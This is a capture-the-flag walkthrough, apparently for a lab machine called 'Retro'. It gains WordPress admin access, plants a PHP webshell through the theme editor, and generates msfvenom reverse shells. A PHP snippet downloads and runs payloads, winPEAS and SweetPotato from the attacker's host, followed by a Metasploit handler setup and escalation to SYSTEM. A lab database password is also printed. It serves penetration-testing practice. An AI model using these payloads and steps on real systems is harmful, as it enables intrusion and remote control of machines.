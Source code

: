 1. Did default scans.
2. Found WordPress website on /retro/
3. Only poster is user named "wade", found random comment says "If i forget to spell it, with `parzival`". This turned out to be the password.
4. Since we're now in WordPress with access, we can make a reverse shell from a WP Theme  as we've done before.
5. We use c99-webshell.php to spawn a Full PHP webshell. Unfortunately this is a windows machine.

http://10.10.136.72/retro/wp-admin/theme-editor.php -> Single Page adjustment:

http://10.10.249.174/retro/wp-admin/theme-editor.php?file=page.php&theme=90s-retro


file_put_content -> file_get_content into wp-content/uploads/

Found some WordPress config for the SQL database:

      // ** MySQL settings - You can get this info from your web host ** //
      /** The name of the database for WordPress */
      define('DB_NAME', 'wordpress567');

      /** MySQL database username */
      define('DB_USER', 'wordpressuser567');

      /** MySQL database password */
      define('DB_PASSWORD', 'YSPgW[%C.mQE');

      /** MySQL hostname */
      define('DB_HOST', 'localhost');

      /** Database Charset to use in creating database tables. */
      define('DB_CHARSET', 'utf8');

      /** The Database Collate type. Don't change this if in doubt. */
      define('DB_COLLATE', '');


Tried making a reverse shell executeable in msfvenom:
```
msfvenom -p windows/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x86.exe
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.14.12.121 LPORT=4444 -f exe > 4444-shellx64.exe
```

And upload it by using file_put_concents from PHP In the WP-Admin.

Setup Python HTTP server to serve Reverse shell EXE.

Simple PHP code to Exploit and download stuff:

```
<?php

$filename = '4444-shell.exe';
$url = 'http://10.14.12.121:8000/'.$filename;
$winpeas = 'http://10.14.12.121:8000/winPEASx86.exe';
$rootShell = 'http://10.14.12.121:8000/4445-shell.exe';
$xploit = 'http://10.14.12.121:8000/SweetPotato.exe';

var_dump(file_put_contents("C:\\inetpub\\wwwroot\\retro\\wp-content\\uploads\\2022\\09\\$filename", file_get_contents($url)));
var_dump(file_put_contents("C:\\inetpub\\wwwroot\\retro\\wp-content\\uploads\\2022\\09\\winPEASx86.exe", file_get_contents($winpeas)));
var_dump(file_put_contents("C:\\inetpub\\wwwroot\\retro\\wp-content\\uploads\\2022\\09\\4445-shell.exe", file_get_contents($rootShell)));
var_dump(file_put_contents("C:\\inetpub\\wwwroot\\retro\\wp-content\\uploads\\2022\\09\\SweetPotato.exe", file_get_contents($xploit)));

echo system("cd ./wp-content/uploads/2022/09/ & dir");
echo "Running: " . "cd ./wp-content/uploads/2022/09/ & dir & start SweetPotato.exe -a C:\inetpub\wwwroot\retro\wp-content\uploads\2022\09\4445-shell-2.exe";
echo "\n";
// Starting RottenPotato.exe to escalate privileges to port 4445
echo system("cd ./wp-content/uploads/2022/09/ & dir & start SweetPotato.exe -a C:\inetpub\wwwroot\retro\wp-content\uploads\2022\09\4445-shell-2.exe");

?>
```

MSFConsole connection works; but not sure where to go from there.

Tried to upload WinPEASx86 and found a few vulnerabilites i might be able to exploit.

For MSFConsole use:

```
msf6 exploit(multi/handler) > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LPORT 4444
LPORT => 4444
msf6 exploit(multi/handler) > set LHOST tun0
LHOST => tun0
msf6 exploit(multi/handler) > run
```


After that we run winPEASx86.exe on the machine to do some recon:

```
[?] Windows vulns search powered by Watson(https://github.com/rasta-mouse/Watson)
 [*] OS Version: 1607 (14393)
 [*] Enumerating installed KBs...
 [!] CVE-2019-0836 : VULNERABLE
  [>] https://exploit-db.com/exploits/46718
  [>] https://decoder.cloud/2019/04/29/combinig-luafv-postluafvpostreadwrite-race-condition-pe-with-diaghub-collector-exploit-from-standard-user-to-system/

 [!] CVE-2019-1064 : VULNERABLE
  [>] https://www.rythmstick.net/posts/cve-2019-1064/

 [!] CVE-2019-1130 : VULNERABLE
  [>] https://github.com/S3cur3Th1sSh1t/SharpByeBear

 [!] CVE-2019-1315 : VULNERABLE
  [>] https://offsec.almond.consulting/windows-error-reporting-arbitrary-file-move-eop.html

 [!] CVE-2019-1388 : VULNERABLE
  [>] https://github.com/jas502n/CVE-2019-1388

 [!] CVE-2019-1405 : VULNERABLE
  [>] https://www.nccgroup.trust/uk/about-us/newsroom-and-events/blogs/2019/november/cve-2019-1405-and-cve-2019-1322-elevation-to-system-via-the-upnp-device-host-service-and-the-update-orchestrator-service/
  [>] https://github.com/apt69/COMahawk

 [!] CVE-2020-0668 : VULNERABLE
  [>] https://github.com/itm4n/SysTracingPoc

 [!] CVE-2020-0683 : VULNERABLE
  [>] https://github.com/padovah4ck/CVE-2020-0683
  [>] https://raw.githubusercontent.com/S3cur3Th1sSh1t/Creds/master/PowershellScripts/cve-2020-0683.ps1

 [!] CVE-2020-1013 : VULNERABLE
  [>] https://www.gosecure.net/blog/2020/09/08/wsus-attacks-part-2-cve-2020-1013-a-windows-10-local-privilege-escalation-1-day/

 [*] Finished. Found 9 potential vulnerabilities.

```

One of these has to be exploitable for us to escalate our privileges, lets see.

Attempting to use SweetPotato.exe which seems the system is vulnerable to!

2YES! I got in and got the User.txt Flag! 

you can use SweetPotato.exe to run your other Meterpreter Shell (4445 in my case) to start a NT Authority/SYSTEM shell which gave us access to C:\Users\Wade\Desktop>type user.txt.txt
This also gave us access to C:\Users\Administrator\Desktop\root.txt.txt, so i think i might have missed a few steps.

